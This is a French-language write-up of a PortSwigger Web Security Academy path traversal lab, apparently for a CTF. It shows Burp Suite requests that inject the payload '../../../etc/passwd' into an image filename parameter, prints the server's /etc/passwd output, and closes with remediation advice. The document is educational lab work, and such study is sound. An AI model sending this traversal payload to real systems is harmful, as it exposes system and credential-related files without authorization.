





# Lab: File path traversal, simple case

> **CTF :** AFRICC 2027 Qualifiers
> **Catégorie :** Sécurité Web
> **Difficulté :** APPRENTICE
> **Points :** ✅
> **Date :** 25/07/2026
> **Statut :** ✅ Résolu 

---

## 📌 Description du Challenge

> *This lab contains a path traversal vulnerability in the display of product images.
To solve the lab, retrieve the contents of the /etc/passwd file.*  


---

## 🎯 Objectif

- nous devons récupérer le contenu du fichier `/etc/passwd`

---

## 🔍 Reconnaissance

- nous avons affaire à un site qui affiche des articles.
- Nous pouvons consulter les informations des différents articles du site web.


**Outils utilisés :**
- Burp Suite 


**Observations :**
- Dans Burp Suite, en actualisant la page, on constate que les images des articles sont téléchargées via un paramètre ?filename qui est une entrée utilisateur.
-

---

## 🧠 Hypothèse

- Nous avons affaire à une vulnérabilité de traversée de chemin (path traversal).
- Ce paramètre constitue notre vecteur d'attaque principal.

---

## ⚔️ Exploitation

### Étape 1 — Intercepter la requête HTTP de chargement de l'image. 

**Requête :**
```http
GET /image?filename=65.jpg HTTP/2
Host: 0a6900cf03596e0580b0a36e00690042.web-security-academy.net
Cookie: session=eZibsqCWCu9I61c7r1ZPROe3AtP2fWRR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a6900cf03596e0580b0a36e00690042.web-security-academy.net/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5
Te: trailers


```
 


### Étape 2 — Transmettre la requête au module Repeater (raccourci Ctrl+R ou clic droit puis « Send to Repeater »).



--- 


3- .

---

### Étape 3 —  Modifier la valeur du paramètre ?filename avec la charge utile.  

- La charge utile ../../../etc/passwd est injectée à la place du nom de l'image afin de tenter d'afficher le contenu du fichier système passwd

**Payload utilisé :**
```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0a6900cf03596e0580b0a36e00690042.web-security-academy.net
Cookie: session=eZibsqCWCu9I61c7r1ZPROe3AtP2fWRR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a6900cf03596e0580b0a36e00690042.web-security-academy.net/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5
Te: trailers
```

**Résultat :**
```http
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false

```


---

## 🚩 Flag



---

## 🛡️ Remédiation

- Solution  : L'identifiant unique (La plus sécurisée)Ne passez plus le nom du fichier dans l'URL. Utilisez un identifiant aléatoire (comme un UUID) lié à une base de données.
- Exemple : ?file_id=8f3b2a1c au lieu de ?filename=image.png. Le serveur cherche l'ID en base et sait exactement quel fichier afficher, sans que l'utilisateur ne puisse modifier le chemin.
---

## 💡 Points Clés à Retenir

- Le danger des entrées utilisateurs : Tout paramètre modifiable par un utilisateur (URL, formulaire, cookies) doit être considéré comme hostile tant qu'il n'a pas été nettoyé (sanitized) et validé.

- Le principe du moindre privilège : Le serveur web (Apache, Nginx, etc.) ne devrait jamais avoir les droits de lecture sur des fichiers sensibles comme /etc/passwd. Si les droits du serveur sont correctement limités, l'impact d'un Path Traversal est fortement réduit.

- L'importance de la visibilité (Logs) : Les tentatives d'injection de séquences ../ sont facilement repérables. Une application bien surveillée doit générer une alerte de sécurité dès qu'un utilisateur tente de remonter les répertoires.

---

## 📚 Références

- [PortSwigger — Lab: File path traversal, simple case](https://portswigger.net/web-security/topic)
- [OWASP — Vulnérabilité Associée](https://owasp.org/Top10/)


---

*Rédigé par : Malick Ramzy SOPODOU*
*PORTSWIGGER*
